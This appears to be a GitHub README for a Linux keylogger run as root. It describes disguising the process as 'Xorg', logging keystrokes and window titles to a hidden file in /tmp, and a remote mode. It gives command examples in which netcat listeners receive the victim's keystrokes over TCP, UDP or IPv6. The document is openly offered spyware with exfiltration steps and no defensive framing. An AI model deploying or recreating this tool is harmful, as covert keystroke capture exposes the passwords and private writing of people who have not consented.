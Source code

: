 # Simple_Local&Remote_Keylogger<br>

###DESCRIPTION:

	Simple keylogger that runs on Linux either locally or remotely.
	It shows the active window on which the target is writing.
	Keys are mapped on US keyboard.
	It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	Process name is renamed as "Xorg".
	It works with both TCP and UDP and with ipv6 too.
	It must be run as root.

```
Usage: #./slrk [OPTIONS]
```

###OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

###EXAMPLE:

	[TCP]
	```
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	[UDP]
	```
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	[IPv6]
	```
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	```
